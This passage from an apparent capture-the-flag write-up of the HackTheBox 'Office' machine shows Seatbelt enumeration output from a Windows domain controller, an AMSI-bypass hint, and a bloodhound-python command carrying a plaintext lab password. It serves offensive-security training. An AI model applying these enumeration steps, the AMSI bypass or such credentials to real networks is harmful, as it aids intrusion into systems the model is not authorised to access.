    SDDL         : O:SYG:SYD:P(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;SY)
668,lsass,RpcProxy\49679
    SDDL         : O:BAG:SYD:(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;BA)
904,svchost,RpcProxy\593
    SDDL         : O:NSG:NSD:(A;;0x12019b;;;WD)(A;;RC;;;OW)(A;;0x12019b;;;AN)(A;;FA;;;S-1-5-80-521322694-906040134-3864710659-1525148216-3451224162)(A;;FA;;;S-1-5-80-979556362-403687129-3954533659-2335141334-1547273080)
620,services,scerpc
1232,svchost,SessEnvPublicRpc
2752,svchost,srvsvc
2720,svchost,tapsrv
396,svchost,TermSrv_API_service
2112,VGAuthService,vgauth-service
    SDDL         : O:BAG:SYD:P(A;;0x12019f;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)
860,svchost,W32TIME_ALT
0,Unk,Winsock2\CatalogChangeListener-208-0
0,Unk,Winsock2\CatalogChangeListener-26c-0
0,Unk,Winsock2\CatalogChangeListener-29c-0
0,Unk,Winsock2\CatalogChangeListener-29c-1
0,Unk,Winsock2\CatalogChangeListener-388-0
0,Unk,Winsock2\CatalogChangeListener-3d0-0
0,Unk,Winsock2\CatalogChangeListener-4a4-0
0,Unk,Winsock2\CatalogChangeListener-4d0-0
0,Unk,Winsock2\CatalogChangeListener-5b4-0
0,Unk,Winsock2\CatalogChangeListener-b30-0
0,Unk,Winsock2\CatalogChangeListener-b5c-0
1864,svchost,wkssvc
====== NetworkProfiles ======

ERROR: Unable to collect. Must be an administrator.
====== NetworkShares ======

  Name                           : ADMIN$
  Path                           : C:\Windows
  Description                    : Remote Admin
  Type                           : Disk Drive Admin

  Name                           : C$
  Path                           : C:\
  Description                    : Default share
  Type                           : Disk Drive Admin

  Name                           : IPC$
  Path                           : 
  Description                    : Remote IPC
  Type                           : IPC Admin

  Name                           : NETLOGON
  Path                           : C:\Windows\SYSVOL\sysvol\office.htb\SCRIPTS
  Description                    : Logon server share 
  Type                           : Disk Drive

  Name                           : SOC Analysis
  Path                           : C:\SOC Analysis
  Description                    : 
  Type                           : Disk Drive

  Name                           : SYSVOL
  Path                           : C:\Windows\SYSVOL\sysvol
  Description                    : Logon server share 
  Type                           : Disk Drive

====== NTLMSettings ======

  LanmanCompatibilityLevel    : (Send NTLMv2 response only - Win7+ default)

  NTLM Signing Settings
      ClientRequireSigning    : False
      ClientNegotiateSigning  : True
      ServerRequireSigning    : True
      ServerNegotiateSigning  : True
      LdapSigning             : 1 (Negotiate signing)

  Session Security
      NTLMMinClientSec        : 536870912 (Require128BitKey)
      NTLMMinServerSec        : 536870912 (Require128BitKey)


  NTLM Auditing and Restrictions
      InboundRestrictions     : (Not defined)
      OutboundRestrictions    : (Not defined)
      InboundAuditing         : (Not defined)
      OutboundExceptions      : 
====== OptionalFeatures ======

State    Name                                               Caption
ERROR:   [!] Terminating exception running command 'OptionalFeatures': System.Runtime.InteropServices.COMException (0x80070422)
   at System.Runtime.InteropServices.Marshal.ThrowExceptionForHRInternal(Int32 errorCode, IntPtr errorInfo)
   at System.Management.ManagementObjectCollection.ManagementObjectEnumerator.MoveNext()
   at Seatbelt.Commands.Windows.OptionalFeaturesCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== OSInfo ======

  Hostname                      :  DC
  Domain Name                   :  office.htb
  Username                      :  OFFICE\tstark
  ProductName                   :  Windows Server 2022 Standard
  EditionID                     :  ServerStandard
  ReleaseId                     :  2009
  Build                         :  20348.2322
  BuildBranch                   :  fe_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTimeUtc (approx)          :  2/18/2024 3:00:27 AM (Total uptime: 00:02:36:02)
  HighIntegrity                 :  False
  IsLocalAdmin                  :  False
  CurrentTimeUtc                :  2/18/2024 5:36:29 AM (Local time: 2/17/2024 9:36:29 PM)
  TimeZone                      :  Pacific Standard Time
  TimeZoneOffset                :  -08:00:00
  InputLanguage                 :  US
  InstalledInputLanguages       :  
  MachineGuid                   :  26c785a2-b8ef-49d7-99cf-c53f18490068
====== PoweredOnEvents ======

Collecting kernel boot (EID 12) and shutdown (EID 13) events from the last 7 days

Powered On Events (Time is local time)

  2/17/2024 7:00:27 PM    :  startup

  2/15/2024 4:53:21 PM    :  shutdown
  2/15/2024 4:49:20 PM    :  startup
  2/15/2024 4:29:17 PM    :  shutdown

  2/15/2024 3:41:51 PM    :  startup
  2/14/2024 5:37:28 PM    :  shutdown
  2/14/2024 5:32:14 PM    :  startup
  2/14/2024 4:32:36 PM    :  shutdown
  2/14/2024 4:28:01 PM    :  startup
  2/14/2024 4:12:07 PM    :  shutdown
  2/14/2024 4:02:44 PM    :  startup

  2/14/2024 2:19:58 AM    :  shutdown
  2/14/2024 1:59:48 AM    :  startup
  2/14/2024 1:26:04 AM    :  shutdown
  2/14/2024 1:17:45 AM    :  startup
  2/14/2024 1:17:34 AM    :  shutdown
  2/14/2024 12:35:47 AM   :  startup
====== PowerShell ======


  Installed CLR Versions
      4.0.30319

  Installed PowerShell Versions
      2.0
        [!] Version 2.0.50727 of the CLR is not installed - PowerShell v2.0 won't be able to run.
      5.1.20348.1

  Transcription Logging Settings
      Enabled            : False
      Invocation Logging : False
      Log Directory      : 

  Module Logging Settings
      Enabled             : False
      Logged Module Names :

  Script Block Logging Settings
      Enabled            : False
      Invocation Logging : False

  Anti-Malware Scan Interface (AMSI)
      OS Supports AMSI: True
        [!] You can do a PowerShell version downgrade to bypass AMSI.
====== Processes ======

Collecting Non Microsoft Processes (via WMI)

====== PSSessionSettings ======

ERROR: Unable to collect. Must be an administrator.
====== RDPSessions ======

  SessionID                     :  0
  SessionName                   :  Services
  UserName                      :  \
  State                         :  Disconnected
  HostName                      :  
  FarmName                      :  
  LastInput                     :  05h:36m:30s:357ms
  ClientIP                      :  
  ClientHostname                :  
  ClientResolution              :  
  ClientBuild                   :  0
  ClientHardwareId              :  0,0,0,0
  ClientDirectory               :  

  SessionID                     :  1
  SessionName                   :  Console
  UserName                      :  OFFICE\ppotts
  State                         :  Active
  HostName                      :  
  FarmName                      :  
  LastInput                     :  05h:36m:30s:378ms
  ClientIP                      :  
  ClientHostname                :  
  ClientResolution              :  640x480 @ 2 bits per pixel
  ClientBuild                   :  0
  ClientHardwareId              :  0,0,0,0
  ClientDirectory               :  

====== RDPsettings ======

RDP Server Settings:
  NetworkLevelAuthentication: 
  BlockClipboardRedirection:  
  BlockComPortRedirection:    
  BlockDriveRedirection:      
  BlockLptPortRedirection:    
  BlockPnPDeviceRedirection:  
  BlockPrinterRedirection:    
  AllowSmartCardRedirection:  

RDP Client Settings:
  DisablePasswordSaving: True
  RestrictedRemoteAdministration: False
====== SCCM ======

  Server                         : 
  SiteCode                       : 
  ProductVersion                 : 
  LastSuccessfulInstallParams    : 

====== Services ======

Non Microsoft Services (via WMI)

  Name                           : Apache2.4
  DisplayName                    : Apache2.4
  Description                    : Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
  User                           : OFFICE\web_account
  State                          : Running
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : "C:\xampp\apache\bin\httpd.exe" -k runservice
  BinaryPath                     : C:\xampp\apache\bin\httpd.exe
  BinaryPathSDDL                 : O:BAD:AI(A;ID;FA;;;LS)(A;ID;0x1201bf;;;S-1-5-21-1199398058-4196589450-691661856-1118)(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : Apache Software Foundation
  FileDescription                : Apache HTTP Server
  Version                        : 2.4.56
  IsDotNet                       : False

  Name                           : MicrosoftSearchInBing
  DisplayName                    : Microsoft Search in Bing
  Description                    : A service to config default search engine to Bing
  User                           : LocalSystem
  State                          : Running
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : "C:\Program Files (x86)\Microsoft\Microsoft Search in Bing\MicrosoftSearchInBing.exe"
  BinaryPath                     : C:\Program Files (x86)\Microsoft\Microsoft Search in Bing\MicrosoftSearchInBing.exe
  BinaryPathSDDL                 : O:SYD:AI(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : 
  FileDescription                : MicrosoftSearchInBing
  Version                        : 1.0.0.0
  IsDotNet                       : True

  Name                           : mysql
  DisplayName                    : mysql
  Description                    : 
  User                           : OFFICE\web_account
  State                          : Running
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
  BinaryPath                     : C:\xampp\mysql\bin\mysqld.exe
  BinaryPathSDDL                 : O:BAD:AI(A;ID;FA;;;LS)(A;ID;0x1201bf;;;S-1-5-21-1199398058-4196589450-691661856-1118)(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : 
  FileDescription                : 
  Version                        : 10.4.28.0
  IsDotNet                       : False

  Name                           : ssh-agent
  DisplayName                    : OpenSSH Authentication Agent
  Description                    : Agent to hold private keys used for public key authentication.
  User                           : LocalSystem
  State                          : Stopped
  StartMode                      : Disabled
  Type                           : Own Process
  ServiceCommand                 : C:\Windows\System32\OpenSSH\ssh-agent.exe
  BinaryPath                     : C:\Windows\System32\OpenSSH\ssh-agent.exe
  BinaryPathSDDL                 : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;;0x1200a9;;;SY)(A;;0x1200a9;;;BA)(A;;0x1200a9;;;BU)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;;0x1200a9;;;S-1-15-2-2)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;RP;;;AU)
  CompanyName                    : 
  FileDescription                : 
  Version                        : 8.1.0.1
  IsDotNet                       : False

  Name                           : VBoxService
  DisplayName                    : VirtualBox Guest Additions Service
  Description                    : Manages VM runtime information, time synchronization, remote sysprep execution and miscellaneous utilities for guest operating systems.
  User                           : LocalSystem
  State                          : Stopped
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : C:\Windows\System32\VBoxService.exe
  BinaryPath                     : C:\Windows\System32\VBoxService.exe
  BinaryPathSDDL                 : O:BAD:AI(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : Oracle and/or its affiliates
  FileDescription                : VirtualBox Guest Additions Service
  Version                        : 7.0.6.155176
  IsDotNet                       : False

  Name                           : VGAuthService
  DisplayName                    : VMware Alias Manager and Ticket Service
  Description                    : Alias Manager and Ticket Service
  User                           : LocalSystem
  State                          : Running
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
  BinaryPath                     : C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe
  BinaryPathSDDL                 : O:SYD:(A;ID;FA;;;BA)(A;ID;0x1200a9;;;WD)(A;ID;FA;;;SY)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : VMware, Inc.
  FileDescription                : VMware Guest Authentication Service
  Version                        : 12.0.6.62817
  IsDotNet                       : False

  Name                           : vm3dservice
  DisplayName                    : VMware SVGA Helper Service
  Description                    : Helps VMware SVGA driver by collecting and conveying user mode information
  User                           : LocalSystem
  State                          : Running
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : C:\Windows\system32\vm3dservice.exe
  BinaryPath                     : C:\Windows\system32\vm3dservice.exe
  BinaryPathSDDL                 : O:S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464D:PAI(A;;FA;;;SY)(A;;0x1200a9;;;BU)(A;;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;;0x1200a9;;;AC)(A;;0x1200a9;;;S-1-15-2-2)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : VMware, Inc.
  FileDescription                : VMware SVGA Helper Service
  Version                        : 9.17.01.0002
  IsDotNet                       : False

  Name                           : VMTools
  DisplayName                    : VMware Tools
  Description                    : Provides support for synchronizing objects between the host and guest operating systems.
  User                           : LocalSystem
  State                          : Running
  StartMode                      : Auto
  Type                           : Own Process
  ServiceCommand                 : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
  BinaryPath                     : C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
  BinaryPathSDDL                 : O:SYD:(A;ID;FA;;;BA)(A;ID;0x1200a9;;;WD)(A;ID;FA;;;SY)
  ServiceDll                     : 
  ServiceSDDL                    : O:SYD:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
  CompanyName                    : VMware, Inc.
  FileDescription                : VMware Tools Core Service
  Version                        : 12.0.6.37079
  IsDotNet                       : False

====== Sysmon ======

ERROR: Unable to collect. Must be an administrator.
====== TcpConnections ======

  Local Address          Foreign Address        State      PID   Service         ProcessName
  0.0.0.0:80             0.0.0.0:0              LISTEN     2632                  httpd.exe
  0.0.0.0:88             0.0.0.0:0              LISTEN     668   Kdc             lsass.exe
  0.0.0.0:135            0.0.0.0:0              LISTEN     904   RpcSs           svchost.exe
  0.0.0.0:389            0.0.0.0:0              LISTEN     668                   lsass.exe
  0.0.0.0:443            0.0.0.0:0              LISTEN     2632                  httpd.exe
  0.0.0.0:445            0.0.0.0:0              LISTEN     4                     System
  0.0.0.0:464            0.0.0.0:0              LISTEN     668   Kdc             lsass.exe
  0.0.0.0:593            0.0.0.0:0              LISTEN     904   RpcEptMapper    svchost.exe
  0.0.0.0:636            0.0.0.0:0              LISTEN     668                   lsass.exe
  0.0.0.0:3268           0.0.0.0:0              LISTEN     668                   lsass.exe
  0.0.0.0:3269           0.0.0.0:0              LISTEN     668                   lsass.exe
  0.0.0.0:3306           0.0.0.0:0              LISTEN     744   mysql           mysqld.exe
  0.0.0.0:3389           0.0.0.0:0              LISTEN     396   TermService     svchost.exe
  0.0.0.0:5985           0.0.0.0:0              LISTEN     4                     System
  0.0.0.0:8083           0.0.0.0:0              LISTEN     2632                  httpd.exe
  0.0.0.0:9389           0.0.0.0:0              LISTEN     2824  ADWS            Microsoft.ActiveDirectory.WebServices.exe
  0.0.0.0:47001          0.0.0.0:0              LISTEN     4                     System
  0.0.0.0:49664          0.0.0.0:0              LISTEN     668                   lsass.exe
  0.0.0.0:49665          0.0.0.0:0              LISTEN     520                   wininit.exe
  0.0.0.0:49666          0.0.0.0:0              LISTEN     1188  EventLog        svchost.exe
  0.0.0.0:49667          0.0.0.0:0              LISTEN     1460  Schedule        svchost.exe
  0.0.0.0:49668          0.0.0.0:0              LISTEN     1232  SessionEnv      svchost.exe
  0.0.0.0:49669          0.0.0.0:0              LISTEN     668   Kdc             lsass.exe
  0.0.0.0:49679          0.0.0.0:0              LISTEN     668                   lsass.exe
  0.0.0.0:56342          0.0.0.0:0              LISTEN     2864  DFSR            dfsrs.exe
  0.0.0.0:60734          0.0.0.0:0              LISTEN     668   Netlogon        lsass.exe
  0.0.0.0:60740          0.0.0.0:0              LISTEN     620                   services.exe
  0.0.0.0:60754          0.0.0.0:0              LISTEN     2908  DNS             dns.exe
  10.129.241.7:53        0.0.0.0:0              LISTEN     2908  DNS             dns.exe
  10.129.241.7:80        10.10.16.26:54030      CLOSE_WAIT 2632                  httpd.exe
  10.129.241.7:139       0.0.0.0:0              LISTEN     4                     System
  10.129.241.7:389       10.129.241.7:56171     ESTAB      668                   lsass.exe
  10.129.241.7:389       10.129.241.7:56335     ESTAB      668                   lsass.exe
  10.129.241.7:389       10.129.241.7:56339     ESTAB      668                   lsass.exe
  10.129.241.7:56171     10.129.241.7:389       ESTAB      2908  DNS             dns.exe
  10.129.241.7:56335     10.129.241.7:389       ESTAB      2864  DFSR            dfsrs.exe
  10.129.241.7:56339     10.129.241.7:389       ESTAB      2864  DFSR            dfsrs.exe
  10.129.241.7:57962     10.10.16.26:9000       CLOSE_WAIT 5076                  httpd.exe
  10.129.241.7:58012     10.10.16.26:8888       ESTAB      1552                  OneNote.exe
  10.129.241.7:58225     10.10.16.26:6969       CLOSE_WAIT 5888                  
  10.129.241.7:58228     10.10.16.26:8888       ESTAB      3852                  "C:\Users\tstark\Downloads\OneNote.exe"
  127.0.0.1:53           0.0.0.0:0              LISTEN     2908  DNS             dns.exe
  127.0.0.1:389          127.0.0.1:49681        ESTAB      668                   lsass.exe
  127.0.0.1:389          127.0.0.1:49683        ESTAB      668                   lsass.exe
  127.0.0.1:389          127.0.0.1:60753        ESTAB      668                   lsass.exe
  127.0.0.1:49681        127.0.0.1:389          ESTAB      2924  IsmServ         ismserv.exe
  127.0.0.1:49683        127.0.0.1:389          ESTAB      2924  IsmServ         ismserv.exe
  127.0.0.1:60753        127.0.0.1:389          ESTAB      2908  DNS             dns.exe
====== TokenPrivileges ======

Current Token's Privileges

                    SeMachineAccountPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
====== UAC ======

  ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
  EnableLUA (Is UAC enabled?)    : 1
  LocalAccountTokenFilterPolicy  : 
  FilterAdministratorToken       : 
    [*] Default Windows settings - Only the RID-500 local admin account can be used for lateral movement.
====== UdpConnections ======

  Local Address          PID    Service                 ProcessName
  0.0.0.0:123            860    W32Time                 svchost.exe
  0.0.0.0:389            668                            lsass.exe
  0.0.0.0:3389           396    TermService             svchost.exe
  0.0.0.0:5353           1168   Dnscache                svchost.exe
  0.0.0.0:5355           1168   Dnscache                svchost.exe
  0.0.0.0:53247          2908   DNS                     dns.exe
  0.0.0.0:53248          2908   DNS                     dns.exe
  0.0.0.0:53249          2908   DNS                     dns.exe
<--- CUT FOR BREVITY --->
  0.0.0.0:55745          2908   DNS                     dns.exe
  0.0.0.0:55746          2908   DNS                     dns.exe
  0.0.0.0:55751          2908   DNS                     dns.exe
  0.0.0.0:64731          1168   Dnscache                svchost.exe
  10.129.241.7:53        2908   DNS                     dns.exe
  10.129.241.7:88        668    Kdc                     lsass.exe
  10.129.241.7:137       4                              System
  10.129.241.7:138       4                              System
  10.129.241.7:464       668    Kdc                     lsass.exe
  127.0.0.1:53           2908   DNS                     dns.exe
  127.0.0.1:55747        2924   IsmServ                 ismserv.exe
  127.0.0.1:55748        2824   ADWS                    Microsoft.ActiveDirectory.WebServices.exe
  127.0.0.1:55750        1316   gpsvc                   svchost.exe
  127.0.0.1:55753        3724                           WmiPrvSE.exe
  127.0.0.1:58504        2864   DFSR                    dfsrs.exe
  127.0.0.1:59429        2908   DNS                     dns.exe
  127.0.0.1:60604        668    Kdc                     lsass.exe
  127.0.0.1:65205        1276   NlaSvc                  svchost.exe
====== UserRightAssignments ======

Must be an administrator to enumerate User Right Assignments
====== WifiProfile ======

ERROR:   [!] Terminating exception running command 'WifiProfile': System.DllNotFoundException: Unable to load DLL 'Wlanapi.dll': The specified module could not be found. (Exception from HRESULT: 0x8007007E)
   at Seatbelt.Interop.Wlanapi.WlanOpenHandle(UInt32 dwClientVersion, IntPtr pReserved, UInt32& pdwNegotiatedVersion, IntPtr& ClientHandle)
   at Seatbelt.Commands.Windows.WifiProfileCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== WindowsAutoLogon ======

ERROR:   [!] Terminating exception running command 'WindowsAutoLogon': System.Security.SecurityException: Requested registry access is not allowed.
   at System.ThrowHelper.ThrowSecurityException(ExceptionResource resource)
   at Microsoft.Win32.RegistryKey.InternalOpenSubKey(String name, RegistryKeyPermissionCheck permissionCheck, Int32 rights)
   at Seatbelt.Util.RegistryUtil.GetValue(RegistryHive hive, String path, String value, RegistryHiveType view)
   at Seatbelt.Runtime.GetStringValue(RegistryHive hive, String path, String value)
   at Seatbelt.Commands.Windows.WindowsAutoLogonCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
The Zone of the assembly that failed was:
MyComputer
====== WindowsDefender ======

Locally-defined Settings:


GPO-defined Settings:
====== WindowsEventForwarding ======

====== WindowsFirewall ======

Collecting Windows Firewall Non-standard Rules


Location                     : SOFTWARE\Policies\Microsoft\WindowsFirewall

Location                     : SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy

Domain Profile
    Enabled                  : True
    DisableNotifications     : True
    DefaultInboundAction     : ALLOW
    DefaultOutboundAction    : ALLOW

Public Profile
    Enabled                  : True
    DisableNotifications     : True
    DefaultInboundAction     : ALLOW
    DefaultOutboundAction    : ALLOW

Standard Profile
    Enabled                  : True
    DisableNotifications     : True
    DefaultInboundAction     : ALLOW
    DefaultOutboundAction    : ALLOW

Rules:

  Name                 : Block 135
  Description          : 
  ApplicationName      : 
  Protocol             : TCP
  Action               : Block
  Direction            : In
  Profiles             : 
  Local Addr:Port      : :135
  Remote Addr:Port     : :

  Name                 : Block 135
  Description          : 
  ApplicationName      : 
  Protocol             : TCP
  Action               : Block
  Direction            : Out
  Profiles             : 
  Local Addr:Port      : :
  Remote Addr:Port     : :135

====== WMI ======

  AdminPasswordStatus           : 1
  AutomaticManagedPagefile      : True
  AutomaticResetBootOption      : True
  AutomaticResetCapability      : True
  BootOptionOnLimit             : 3
  BootOptionOnWatchDog          : 3
  BootROMSupported              : True
  BootStatus(UInt16[])          : 0,0,0,0,0,0,0,0,0,0
  BootupState                   : Normal boot
  Caption                       : DC
  ChassisBootupState            : 3
  CreationClassName             : Win32_ComputerSystem
  CurrentTimeZone               : -480
  DaylightInEffect              : False
  Description                   : AT/AT COMPATIBLE
  DNSHostName                   : DC
  Domain                        : office.htb
  DomainRole                    : 5
  EnableDaylightSavingsTime     : True
  FrontPanelResetStatus         : 3
  HypervisorPresent             : True
  InfraredSupported             : False
  KeyboardPasswordStatus        : 3
  Manufacturer                  : VMware, Inc.
  Model                         : VMware Virtual Platform
  Name                          : DC
  NetworkServerModeEnabled      : True
  NumberOfLogicalProcessors     : 2
  NumberOfProcessors            : 2
  OEMStringArray(String[])      :
      [MS_VM_CERT/SHA1/27d66596a61c48dd3dc7216fd715126e33f59ae7]
      Welcome to the Virtual Machine
  PartOfDomain                  : True
  PauseAfterReset               : 3932100000
  PCSystemType                  : 1
  PCSystemTypeEx                : 1
  PowerOnPasswordStatus         : 0
  PowerState                    : 0
  PowerSupplyState              : 3
  PrimaryOwnerName              : Windows User
  ResetCapability               : 1
  ResetCount                    : -1
  ResetLimit                    : -1
  Roles(String[])               :
      LM_Workstation
      LM_Server
      Primary_Domain_Controller
      Timesource
      NT
      DFS
  Status                        : OK
  SystemType                    : x64-based PC
  ThermalState                  : 3
  TotalPhysicalMemory           : 4294430720
  UserName                      : OFFICE\ppotts
  WakeUpType                    : 6

====== WMIEventConsumer ======

  Name                              :   SCM Event Log Consumer
  ConsumerType                      :   S-1-5-32-544
  CreatorSID                        :   NTEventLogEventConsumer
  Category                          :   0
  EventID                           :   0
  EventType                         :   1
  InsertionStringTemplates          :   System.String[]
  MachineName                       :   
  MaximumQueueSize                  :   
  Name                              :   SCM Event Log Consumer
  NameOfRawDataProperty             :   
  NameOfUserSIDProperty             :   sid
  NumberOfInsertionStrings          :   0
  SourceName                        :   Service Control Manager
  UNCServerName                     :   
====== WMIEventFilter ======

  Name                           : SCM Event Log Filter
  Namespace                      : ROOT\Subscription
  EventNamespace                 : root\cimv2
  Query                          : select * from MSFT_SCMEventLogEvent
  QueryLanguage                  : WQL
  EventAccess                    : 
  CreatorSid                     : S-1-5-32-544

====== WMIFilterBinding ======

  Consumer                       : __EventFilter.Name="SCM Event Log Filter"
  Filter                         : NTEventLogEventConsumer.Name="SCM Event Log Consumer"
  CreatorSID                     : S-1-5-32-544

====== WSUS ======

  UseWUServer                    : False
  Server                         : 
  AlternateServer                : 
  StatisticsServer               : 


[*] Completed collection in 2.55 seconds
```

## BloodHound

I needed to `sync` my `system time` with the `Domain Controller` in order to get a working `Kerberos Ticket`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Office/files]
└─$ sudo net time set -S 10.129.241.7
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Office/files]
└─$ bloodhound-python -u dwolfe -p "H0lOgrams4reTakIng0Ver754\!" -d office.htb -gc office.htb -c all -ns 10.129.241.7 
INFO: Found AD domain: office.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.office.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.office.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 13 users
INFO: Found 54 groups
INFO: Found 8 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.office.htb
INFO: Done in 00M 16S
```

The user `tstark` was member of the group `REGISTRY EDITORS`.

*Members of this group are allowed to modify certain registry keys for testing and debugging purposes*



